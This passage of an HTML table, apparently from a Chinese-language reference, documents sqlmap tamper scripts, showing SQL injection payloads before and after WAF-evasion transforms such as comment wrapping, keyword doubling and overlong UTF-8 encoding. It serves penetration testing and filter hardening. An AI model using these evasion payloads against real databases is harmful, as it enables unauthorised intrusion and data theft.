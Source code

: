     <tr>
      <td style="text-align:left">informationschemacomment.py</td>
      <td style="text-align:left">
        <p>&#x5728; information_schema &#x540E;&#x9762;&#x52A0;&#x4E0A; /**/ &#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;&#x5BF9;
          information_schema &#x7684;&#x60C5;&#x51B5;</p>
        <p>retVal = re.sub(r&quot;(?i)(information_schema).&quot;, &quot;g&lt;1&gt;/**/.&quot;,
          payload)</p>
      </td>
      <td style="text-align:left">select table_name from information_schema.tables ==&gt; select table_name
        from information_schema/**/.tables</td>
    </tr>
    <tr>
      <td style="text-align:left">lowercase.py</td>
      <td style="text-align:left">&#x5C06; payload &#x91CC;&#x7684;&#x5927;&#x5199;&#x8F6C;&#x4E3A;&#x5C0F;&#x5199;</td>
      <td
      style="text-align:left">SELECT table_name FROM INFORMATION_SCHEMA.TABLES ==&gt; select table_name
        from information_schema.tables</td>
    </tr>
    <tr>
      <td style="text-align:left">modsecurityversioned.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x6765;&#x5305;&#x56F4;&#x5B8C;&#x6574;&#x7684;&#x67E5;&#x8BE2;&#x8BED;&#x53E5;&#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;
        ModSecurity &#x5F00;&#x6E90; waf</td>
      <td style="text-align:left">1 AND 2&gt;1-- ==&gt; 1 /<em>!30874AND 2&gt;1</em>/--</td>
    </tr>
    <tr>
      <td style="text-align:left">modsecurityzeroversioned.py</td>
      <td style="text-align:left">&#x7528;&#x6CE8;&#x91CA;&#x6765;&#x5305;&#x56F4;&#x5B8C;&#x6574;&#x7684;&#x67E5;&#x8BE2;&#x8BED;&#x53E5;&#xFF0C;&#x7528;&#x4E8E;&#x7ED5;&#x8FC7;
        waf &#xFF0C;&#x548C;&#x4E0A;&#x9762;&#x7C7B;&#x4F3C;</td>
      <td style="text-align:left">1 and 2&gt;1--+ ==&gt; 1 /!00000and 2&gt;1/--+</td>
    </tr>
    <tr>
      <td style="text-align:left">multiplespaces.py</td>
      <td style="text-align:left">&#x56F4;&#x7ED5;SQL&#x5173;&#x952E;&#x5B57;&#x6DFB;&#x52A0;&#x591A;&#x4E2A;&#x7A7A;&#x683C;</td>
      <td
      style="text-align:left">1 UNION SELECT foobar ==&gt; 1 UNION SELECT foobar</td>
    </tr>
    <tr>
      <td style="text-align:left">nonrecursivereplacement.py</td>
      <td style="text-align:left">&#x5173;&#x952E;&#x5B57;&#x53CC;&#x5199;&#xFF0C;&#x53EF;&#x7528;&#x4E8E;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;</td>
      <td
      style="text-align:left">1 UNION SELECT 2-- ==&gt; 1 UNIONUNION SELESELECTCT 2--</td>
    </tr>
    <tr>
      <td style="text-align:left">overlongutf8.py</td>
      <td style="text-align:left">&#x8F6C;&#x6362;&#x7ED9;&#x5B9A;&#x7684;payload&#x5F53;&#x4E2D;&#x7684;&#x6240;&#x6709;&#x5B57;&#x7B26;</td>
      <td
      style="text-align:left">SELECT FIELD FROM TABLE WHERE 2&gt;1 ==&gt; SELECT%C0%AAFIELD%C0%AAFROM%C0%AATABLE%C0%AAWHERE%C0%AA2%C0%BE1</td>
    </tr>
    <tr>
      <td style="text-align:left">percentage.py</td>
      <td style="text-align:left">&#x7528;&#x767E;&#x5206;&#x53F7;&#x6765;&#x7ED5;&#x8FC7;&#x5173;&#x952E;&#x5B57;&#x8FC7;&#x6EE4;&#xFF0C;&#x5728;&#x5173;&#x952E;&#x5B57;&#x7684;&#x6BCF;&#x4E2A;&#x5B57;&#x6BCD;&#x524D;&#x9762;&#x90FD;&#x52A0;&#x4E00;&#x4E2A;(%)</td>
      <td